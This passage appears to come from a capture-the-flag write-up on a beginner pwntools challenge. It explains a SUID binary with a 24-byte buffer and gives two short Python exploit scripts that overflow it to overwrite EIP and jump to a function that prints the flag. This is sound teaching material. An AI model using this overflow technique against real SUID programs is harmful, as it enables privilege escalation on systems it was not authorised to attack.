 You can view permissions of the file with `ls -l`

```
-rwsrwxr-x 1 dizmas dizmas 7444 May 19 02:25 intro2pwn3
```

Notice the `s`. That stands for SUID which is set in this program. Meaning when we run the program - it will have the Effective Permissions of the `dizmas` user.

We can exploit this program through the `get` command used by the program. It has `24` bytes allocated to it and if more than `24` bytes of data is given - a buffer overflow will occur

In doing a Buffer Overflow, we would like to overwrite the `IP` Instruction Pointer (not the networking one ;) (`EIP` on 32 bit machines and `RIP` on 64 bit machines)

```python
#!/usr/bin/env python

from pwn import *

padding = cyclic(cyclic_find('jaaa'))

eip = p32(0xdeadbeef)

payload = padding + eip

print(payload)
```

```python
#!/usr/bin/env python

from pwn import *

padding = cyclic(cyclic_find('jaaa'))

eip = p32(0x8048536)

payload = padding + eip

print(payload)
```

I had a few issues with `gdb` not wanting to run it properly with the exploit so instead I simply used:

```bash
python pwn_cyclic.py | ./intro2pwn3
```

Which simply funnels the output from the `python` command into the next. Dumping the flag onto `stdout`

--------------------------------------------------------------------------------

### Networking
